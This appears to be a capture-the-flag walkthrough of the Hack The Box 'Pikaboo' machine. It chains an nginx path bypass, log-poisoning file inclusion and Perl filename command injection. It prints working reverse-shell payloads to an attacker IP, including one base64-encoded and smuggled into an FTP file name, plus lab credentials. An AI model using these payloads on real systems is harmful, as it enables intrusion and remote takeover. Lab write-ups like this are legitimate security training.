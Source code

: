 # [Pikaboo](https://app.hackthebox.com/machines/Pikaboo)

```bash
nmap -p- --min-rate 10000 10.10.10.249 -Pn
```

![Alt text](img/image.png)

After discovering open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.249
```

![Alt text](img/image-1.png)


Let's access web application.

![Alt text](img/image-2.png)


While, I want to access `admin` page, it says that Unauthorized due to credentials which I don't know.

![Alt text](img/image-3.png)


But I know that it is `nginx` server and I can bypass it via adding `../` characters.

![Alt text](img/image-4.png)


Let's look at `server-status` endpoint via `admin` page.

![Alt text](img/image-5.png)


While I enter URL 'admin../pokatdex' it redirects into  below page, it means I can access localhost admin page.

![Alt text](img/image-6.png)


For this, I will try 'admin../admin_staging'

![Alt text](img/image-7.png)


I found LFI on `page` parameter .

![Alt text](img/image-8.png)

From `nmap` enumeration, I saw that FTP's software is `vsftpd`, let's look at log file of FTP service via visitng `/var/log/vsftpd.log`

![Alt text](img/image-9.png)


From here, we can see successful or unsuccessful login attempts, if we add malicious payload into username parameter, we can browse this malicious payload by LFI vulnerability.

1.Let's add payload into username field of ftp service.
`<?php system('id'); ?>`

![Alt text](img/image-10.png)

2.Let's browse the page where LFI vulnerability have.

![Alt text](img/image-11.png)


Let's add our reverse shell payload into username field as below.
```bash
<?php system('bash -c "bash -i >& /dev/tcp/10.10.16.6/1337 0>&1"'); ?>
```

![Alt text](img/image-12.png)


I browse the page.

![Alt text](img/image-13.png)


I got reverse shell from port (1337)..

![Alt text](img/image-14.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```

![Alt text](img/image-15.png)


user.txt

![Alt text](img/image-16.png)


Let's look at crontab by typing `cat /etc/crontab` into Terminal and saw cronjob here.

![Alt text](img/image-17.png)


I looked at `csvupdate` script which is `Perl` script.

![Alt text](img/image-18.png)


I enumerate machine more and find sensitive credentials on '/opt/pokeapi/config' directory for `settings.py` file.


![Alt text](img/image-19.png)


I used this credentials to enumerrate `LDAP` via `ldapsearch` command.
```bash
ldapsearch -h 127.0.0.1 -x -b 'dc=htb' -D 'cn=binduser,ou=users,dc=pikaboo,dc=htb' -w 'J~42%W?PFHl]g'           
```

![Alt text](img/image-20.png)


Hola, I found password of `pwnmeow` user via decoding by using `base64`.

```bash
echo "X0cwdFQ0X0M0dGNIXyczbV80bEwhXw==" | base64 -d
```

![Alt text](img/image-21.png)


pwnmeow: _G0tT4_C4tcH_'3m_4lL!_


I find a `Command Injection`  for `Perl` language.

My perl script is below.

```perl
#!/usr/bin/perl


shift;
for(<>)
{
  print $_;
}
```

I create a file as below which I inject `id` command.

```bash
touch '|id; #.csv'
```


I run a script as below.
```bash
perl test.pl ignore *.csv
```


![Alt text](img/image-22.png)


I looked at `ftp` group and see that `pwnmeow` user.

![Alt text](img/image-23.png)


Let's add our malicious payload into FTP service and waits for reverse shell.

1.First, create reverse shell in `base64` format.
```bash
echo 'bash -i >& /dev/tcp/10.10.16.6/1338 0>&1' | base64
```

2.Access into FTP service via previously grabbed credentials.
```bash
put test.txt "|echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi42LzEzMzggMD4mMQo=|base64 -d|bash; a.csv"
```


![Alt text](img/image-24.png)


I got reverse shell from port (1338).

![Alt text](img/image-25.png)


root.txt

![Alt text](img/image-26.png)
